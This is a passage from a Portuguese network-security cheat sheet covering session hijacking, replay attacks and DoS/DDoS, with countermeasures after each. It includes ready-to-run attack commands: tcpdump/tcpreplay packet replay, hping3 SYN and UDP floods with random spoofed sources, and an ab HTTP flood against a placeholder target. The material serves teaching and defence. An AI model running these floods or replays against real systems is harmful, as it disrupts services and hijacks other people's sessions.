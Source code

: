 #### 3. Session Hijacking

```bash
# Ferramenta: Burp Suite, OWASP ZAP
# 1. Capturar cookie de sessão (sniffing, XSS)
# 2. Usar cookie em novo request

# Contramedida:
# - HttpOnly flag
# - Secure flag
# - SameSite attribute
# - Session timeout
# - Bind session to IP/User-Agent
```

#### 4. Replay Attack

```bash
# Capturar pacote válido e reenviar
sudo tcpdump -i eth0 -w auth.pcap 'host 192.168.1.100'
tcpreplay -i eth0 auth.pcap

# Contramedida:
# - Nonce (number used once)
# - Timestamp
# - Sequence numbers
```

#### 5. DoS/DDoS

```bash
# SYN Flood
sudo hping3 -S -p 80 --flood --rand-source target.com

# UDP Flood
sudo hping3 --udp -p 53 --flood target.com

# HTTP Flood
ab -n 1000000 -c 1000 http://target.com/

# Amplification (DNS, NTP, Memcached)
# Usar servidor vulnerável para amplificar ataque

# Contramedida:
# - Rate limiting
# - SYN cookies
# - Firewall rules
# - CDN (Cloudflare, Akamai)
# - DDoS mitigation services
```

---

## Análise de Tráfego
